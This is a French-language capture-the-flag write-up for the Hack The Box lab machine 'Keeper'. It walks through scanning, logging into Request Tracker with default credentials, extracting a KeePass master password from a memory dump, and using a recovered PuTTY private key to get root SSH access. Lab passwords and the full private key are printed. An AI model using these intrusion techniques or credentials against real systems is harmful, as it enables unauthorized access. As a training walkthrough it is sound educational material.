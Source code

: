 # HTB Keeper
IP : 10.10.11.227

Room facile (version hackthebox) =)

# Enum
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 07:44 EDT
Nmap scan report for 10.10.11.227
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.92 seconds
```
Port 80 et port 22 ouvert.
Quand on va sur la page web, ca nous fait pointer vers http://tickets.keeper.htb/rt
On va donc modifier le fichier hosts
```
10.10.11.227	tickets.keeper.htb 
10.10.11.227	keeper.htb
```
## Basic research
On tombe sur une page login, rien dans les commentaires de la pages, ni ailleurs.
On trouve le logiciel derriere, il s'agit de "Best Practical Request Tracker 4.4.4"

Les creds par defaut :
```
root:password
```
Ca fonctionne, on a accès a la page d'administration !

On trouve un compte user: 
```
lnorgaard:Welcome2023!
```
# Get the shell ? Maybe ?!
Sur RT, on trouve un ticket concernant un base keepass mais notre chère Lise à bien supprimer la pièce jointe du ticket.

Le compte de lnorgaard permet une connexion SSH, donc, pas besoins de revshell.
Le flag ce trouve dans **/home/lnorgaard/user.txt**

# Go to the root !
On fait les petits tests classic, sudo -l etc. mais rien de probant.
On trouve l'archive RT30000.zip (La pièce jointe vu dans le ticket)

Je le récupère 
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: 
RT30000.zip                                                                                                                                               100%   83MB   2.4MB/s   00:34 
```
et je le désarchive.
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ unzip RT30000.zip 
Archive:  RT30000.zip
replace KeePassDumpFull.dmp? [y]es, [n]o, [A]ll, [N]one, [r]ename: A
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```
Il contient le dump de Keepass et la base en .kdbx.

On passe le fichier .dmp via ce [script](https://github.com/vdohney/keepass-password-dumper/tree/main) afin de récupèrer le masterpass :
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper/keepass_dump]
└─$ python3 keepass_dump.py -f /home/kali/Challenge/HackTheBox/keeper/KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
On ce retrouve avec **dgrd med flde** qui n'est pas le masterpass. 

Quand on tape cette suite de caractère sur google on tombe sur une recette d'un gateau danois : **Rødgrød Med Fløde**
Cela ne fonctionne pas non plus, en remplacant les **ø** par **o**, toujours pas. On essaye tout en minuscule :
```
rødgrød med fløde
```
Cela fonctionne !
On vois 2 entrées : 

Le compte de lnorgaard sur l'url ticket : http://tickets.keeper.htb
Le compte root pour PuTTy.
```
root:F4><3K0nd!
```
On test en SSH :
```
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.11.227                                               
root@10.10.11.227's password: 
Permission denied, please try again.
```
Le mot de passe ne fonctionne pas.
Dans les notes, on vois une clé ssh
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
C'est une clé généré avec PuttY. Nous devont la modifier pour utiliser le client ssh de linux.
Il nous faut Puttygen :
```
sudo apt install putty-tools
```
Je vais donc l'enregistrer dans un fichier **.ppk** puis la modifier en **.pem** avec puttygen:
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ puttygen keepass.ppk -O private-openssh -o keeper.pem
```
et nous voila connecter en root:
```
┌──(kali㉿kali)-[~/Challenge/HackTheBox/keeper]
└─$ ssh root@10.10.11.227 -i keeper.pem                  
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~#
```
le flag ce trouve dans **/root/root.txt**

Pour une fois, celle-ci est effectivement très facile !
Enjoy !
